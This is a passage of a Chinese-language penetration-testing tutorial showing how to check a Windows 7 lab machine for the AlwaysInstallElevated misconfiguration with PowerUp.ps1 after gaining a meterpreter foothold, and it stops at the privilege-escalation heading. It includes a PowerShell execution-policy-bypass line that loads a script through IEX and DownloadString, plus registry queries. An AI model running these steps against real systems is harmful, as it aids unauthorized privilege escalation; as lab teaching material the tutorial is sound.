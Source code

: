 "C:\Program Files\Windows Media Player\wmpnetwk.exe.bak"

# Powerup案列2：

准备环境：

kali linux 攻击机 已获得靶机meterpreter(非管理)权限

win7 靶机  拥有powershell环境

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190317110327370-1120633834.png)

 

运用到的模块:Get-RegistryAlwaysInstallElevated，Write-UserAddMSI

## 0x01信息收集

上传好PowerUp.ps1后(本例子中上传至靶机的C盘)

使用 Powerup 的 Get-RegistryAlwaysInstallElevated 模块来检查注册表项是否被设置，此策略在本地策略编辑器(gpedit.msc):

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319113426535-32402047.png)

 

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319113400496-1996623077.png)

 

 

##  

如果 AlwaysInstallElevated 注册表项被设置，意味着的 MSI 文件是以 system 权限运行的。命令如下，True 表示已经设置

```
powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('c:/PowerUp.ps1');Get-RegistryAlwaysInstallElevated
```

也可以使用注册表查看

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

 

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319105832305-769025220.png)

 

 

 ![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319105758708-952632147.png)

## 0x02 权限提升

